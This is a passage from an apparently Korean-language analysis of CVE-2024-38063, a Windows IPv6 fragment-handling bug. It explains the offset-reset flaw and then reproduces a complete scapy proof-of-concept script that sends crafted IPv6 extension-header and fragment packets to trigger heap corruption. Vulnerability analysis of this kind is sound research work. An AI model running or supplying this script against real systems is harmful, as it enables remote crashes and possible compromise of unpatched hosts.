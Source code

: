 나머지 패킷은 current-offset이 에러 처리 로직에 의해 0으로 되었음에도 불구하고 에러 코드가 삽입되지 않았기 때문에 헤더 파싱을 계속하게됩니다.

<img src="/assets/img/CVE-2024-38063/10.png"/>

이로 인해 current-offset이라는 필드 값을 0으로 만든체로 다른 로직을 수행하게됩니다. 이는 current-offset을 활용한 로직에서 부작용을 불러일으킬 수 있습니다.

# PoC Analysis

PoC를 분석하며 어떤 과정을 거쳐 Heap overflow까지 가능하게 했는지 알아봅시다.

<a href="https://github.com/ynwarcs/CVE-2024-38063">https://github.com/ynwarcs/CVE-2024-38063</a>

```python
from scapy.all import *

iface=''
ip_addr=''
mac_addr=''
num_tries=20
num_batches=20

def get_packets_with_mac(i):
    frag_id = 0xdebac1e + i
    first = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
    second = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
    third = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
    return [first, second, third]

def get_packets(i):
    if mac_addr != '':
        return get_packets_with_mac(i)
    frag_id = 0xdebac1e + i
    first = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
    second = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
    third = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
    return [first, second, third]

final_ps = []
for _ in range(num_batches):
    for i in range(num_tries):
        final_ps += get_packets(i) + get_packets(i)

print("Sending packets")
if mac_addr != '':
    sendp(final_ps, iface)
else:
    send(final_ps, iface)

for i in range(60):
    print(f"Memory corruption will be triggered in {60-i} seconds", end='\r')
```